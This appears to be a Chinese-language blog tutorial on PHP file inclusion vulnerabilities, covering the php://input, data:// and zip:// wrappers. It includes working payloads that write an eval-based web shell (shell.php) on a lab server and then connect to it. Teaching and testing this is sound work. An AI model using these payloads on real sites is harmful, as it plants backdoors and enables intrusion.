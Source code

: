 # 文件包含漏洞

## 原理

文件包含漏洞：即file inclusion，意思是文件包含，是指当服务器开启`allow_url_include`选项时，就可以通过PHP的某些特性函数（include()，require()和include_once()，requir_once()）利用URL去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了PHP配置中的allow_url_fopen选项，选项开启之后，服务器允许包含一个远程文件，服务器通过PHP特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到自己的目的。

- 1、文件包含即程序通过包含函数调用本地或远程文件，以此来实现拓展功能
- 2、被包含的文件可以是各种文件格式，而当文件里面包含恶意代码，则会形成远程命令执行或文件上传漏洞。
- 3、文件包含漏洞主要发生在有包含语句的环境中，例如PHP所具备include、require等函数。

## 分类

> 本地文件包含LFI（local file include）当被包含的文件在服务器本地时，就形成本地文件包含  
> 远程文件包含RFI（remote file include）当被包含的文件在第三方服务器时，叫做远程文件包含。

## PHP文件包含的函数

> include( )  
> 当使用该函数包含文件时，只有代码执行到 include()函数时才将文件包含  
> 进来，发生错误时之给出一个警告，继续向下执行。
> 
> include_once( )  
> 功能与 Include()相同，区别在于当重复调用同一文件时，程序只调用一次
> 
> require( )require()与 include()的区别在于 require()执行如果发生错误，函数会输出  
> 错误信息，并终止脚本的运行。
> 
> require_once( )  
> 功能与 require()相同，区别在于当重复调用同一文件时，程序只调用一次

远程文件包含漏洞

> 当包含的文件在远程服务器上时，就形成了远程文件包含  
> 远程文件包含的注意点：  
> 1). 需要php.ini中allow_url_include = on以及allow_url_fopen=on  
> 2). 所包含远程服务器的文件后缀不能与目标服务器语言相同。(比如目标服务器是php脚本语言解析的，  
> 那么包含的远程服务器文件后缀不能是php)

## 伪协议

> data:text/plain 或 data:text/plain;base64  
> php://input  
> php://filter  
> file://  
> zip://

**payload**

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=;
include('php://input’);include('php://filter/read=convert.base64-encode/resource=test.php');//用于读取源码
zip://2.zip%232.php
```

## 演示

本演示为通过伪协议获取webshell  
测试的PHP文件  
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020082018335259.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

### php://input 伪协议

使用burpsuite抓包再改包  
Payload: `http://192.168.232.128/file.php?a=php://input`  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183446410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

更改请求方式为post  
post过去的代码为

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]);?>');?>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183454503.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

再发包即可生成一个shell.php文件，然后使用蚁剑连接  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183500566.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

### data://text/plain 伪协议

将木马使用base64编码

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]);?>');?>
```

编码之后

> PD9QSFAgZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4nKTs/Pg==

Payload:

```php
http://192.168.232.128/file.php?a=data://text/plain;base64,PD9QSFAgZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4nKTs/Pg==
```

使用该payload即可在网站根目录下生成shell.php文件，然后蚁剑连接  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183727569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

### zip:// 伪协议

创建一个zip压缩包，里面含有带木马的PHP文件

```php
Payload：http://192.168.232.128/file.php?a=zip://2.zip%232.php
```

其余步骤与data伪协议一样
